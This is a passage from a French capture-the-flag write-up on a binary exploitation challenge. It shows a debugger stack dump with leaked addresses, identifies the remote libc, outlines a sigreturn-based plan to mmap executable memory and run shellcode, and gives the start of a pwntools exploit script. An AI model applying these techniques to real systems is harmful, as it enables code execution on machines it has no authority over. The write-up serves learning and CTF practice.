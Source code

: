 ```bash
0x00007fffffffdaf0│+0x0048: 0x00007fffffffdbe8  →  0x00007fffffffdf50  →  "/home/hack42/kDrive/Documents/Programmations/Hack/[...]"
0x00007fffffffdaf8│+0x0050: 0xd963159f0e71e790
0x00007fffffffdb00│+0x0058: 0x0000000000000001
0x00007fffffffdb08│+0x0060: 0x0000000000000000
0x00007fffffffdb10│+0x0068: 0x0000555555557d88  →  0x0000555555555100  →  <__do_global_dtors_aux+0000> endbr64 
0x00007fffffffdb18│+0x0070: 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →   jg 0x555555554047
```

A ce stade, nous avons donc une adresse du binaire, une adresse de la stack et une adresse de la libc. Il est donc possible de connaître quelle libc est utilisée sur le serveur distant :
- Via https://libc.rip/
- en clonant le projet https://github.com/niklasb/libc-database

En revanche, nous devons obligatoirement posséder l'adresse exacte de la fonction `__libc_start_call_main`. Pour cela, il suffit de décrémenter l'adresse leak puis de vérifier si cette dernière match avec une adresse d'une libc... La libc que j'ai utilisé en local, il suffisait de soustraire 0x7a. La libc utilisé à distance n'est certainement pas la même et l'offset de décalage doit légérement être différent.

Après quelques tests, l'offset de décalage utilisé par la libc remote était 0x80. Via libc-database, nous pouvons retrouver la libc utilisée :

```bash
./get ubuntu debian  # Download Ubuntu's and Debian's libc, old default behavior
./find __libc_start_main 52dc0
ubuntu-glibc (libc6_2.35-0ubuntu3.8_amd64)
```


### Mise en place de l'exploitation

Nous avons accès à tous les gadgets de la libc, nous contrôlons totalement le flux d'exécution du programme, il est maintenant temps de mettre en place notre exploitation. En revanche, l'instruction `int 0x80` est une instruction x32, cela va donc être difficile de trouver un gadget de la sorte...

Le plus simple, sachant qu'on a accès au syscall `mmap`, va être d'allouer un nouvel espace mémoire avec des permissions d'exécution et d'écrire un shellcode qui va faire exactement ce que nous voulons :
- Appeler sys_mmap via sys_rt_sigreturn afin de remplir convenablement les registres nécessaires
- Appeler sys_read et lire dans stdin afin d'écrire le shellcode
- Placer rip au début du shellcode afin de l'exécuter

### Script avec pwntool

```python
from pwn import *
from time import sleep
import requests

IS_LOCAL = False
DEBUG = True
IS_GDB = False

################################################ change this !!!
LIBC_PATH = '/lib/x86_64-linux-gnu/libc.so.6' if IS_LOCAL else './libc6_2.35-0ubuntu3.8_amd64.so'
OFFSET_start_call_main = 0x7a if IS_LOCAL else 0x80
OFFSET_START_CALL_MAIN_START_MAIN = 0xb0 if IS_LOCAL else 0xb0
#################################################

if DEBUG:
	context.log_level = 'debug'

context.arch = 'amd64'

```